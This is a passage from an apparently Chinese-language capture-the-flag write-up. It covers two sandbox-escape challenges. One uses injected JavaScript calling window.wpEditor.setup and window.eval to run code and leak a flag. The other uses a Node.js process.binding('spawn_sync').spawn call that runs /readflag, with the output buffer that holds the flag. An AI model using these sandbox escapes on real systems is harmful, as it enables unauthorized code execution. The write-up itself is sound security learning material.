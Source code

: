 然后注意到，这个函数的功能是传入一个元素，将这个 `CodeEditor` 渲染到这个元素的父元素中，代码是从传入的元素的 `.text()` 中获取的，并且在参数中还有设置项，可以设置语言，这不是巧了吗？

于是我们构造下面这个代码：

```js
Object.assign(document.querySelector("#editorBlocks > div > div"), {innerHTML: "Object.keys(compileCache)[0]"});
window.wpEditor.setup(document.querySelector("#editorBlocks > div > div"), {trim: false, language: "javascript"});
window.setTimeout(window.eval('()=>{document.querySelector("#editorBlocks > div > div > div > button").click()}'), 150);
window.setTimeout(window.eval("()=>{document.title=document.querySelector('#editorBlocks > div > div > div > div.result').textContent;}"), 250);
```

首先选一个幸运元素（我直接选的是原来的编辑器元素），将 `innerHTML` 改成从 `compileCache` 里面提取打印 Flag 的代码的代码。由于 WebPPL 禁止了给任意变量赋值，这里我们用 `Object.assign` 绕过。

然后调用 `window.wpEditor.setup`，将 `language` 设置为 `javascript`。

之后就等待组件渲染，然后执行代码就行了。需要注意的是，`eval` 和 `setTimeout` 都不能直接用，这个可以用 `window.eval` 和 `window.setTimeout` 代替。其次 `setTimeout` 里面也不能直接写匿名函数，可以通过再套一个 `window.eval` 实现。

P.S. 本来做完这个感觉流程十分顺畅，寻思这个会不会就是预期解，简直太精妙了，于是跑去找 xmcp 问了下，喜提 ”卧槽wpEditor.setup是啥“ 。

P.P.S. 我还是先做了 crx 才做的这个题，后来知道才可以直接发送 `Ctrl+Z` 事件撤回……总是学不会举一反三。

#### 后端开发

跟前端一样的道理，`eval` 不能直接用，但是 `global.eval` 就可以了。所以只需要想办法吧 `spawn` 之类的搞出来就行。小北问答一下可以找到 `process.binding("spawn_sync").spawn` 这个方法，就是 `child_process` 中的 `spawn`的底层方法。不过不知道参数具体是什么要求，看了会源码也没搞懂，最后想起来可以直接 debugger 看一下，把参数填对就过了。最后提交的代码如下：

```js
process.binding("spawn_sync").spawn({file: "/readflag", args: ["/readflag"], cwd: undefined, detached: false, encoding: "utf-8", envPairs: [], maxBuffer: 1048576, stdio: [{type: "pipe",readable: true,writable: false},{type: "pipe",readable: false,writable: true},{type: "pipe",readable: false,writable: true}]})
```

输出为：

```text
The output is:
{
  status: 44,
  signal: null,
  output: [
    null,
    <Buffer 66 6c 61 67 7b 74 72 69 63 6b 79 2d 54 6f 2d 53 70 41 77 6e 2d 73 75 42 70 52 6f 63 45 73 53 2d 49 4e 2d 4e 4f 44 45 4a 73 7d 0a 0a>,
    <Buffer >
  ],
  pid: 35
}
```
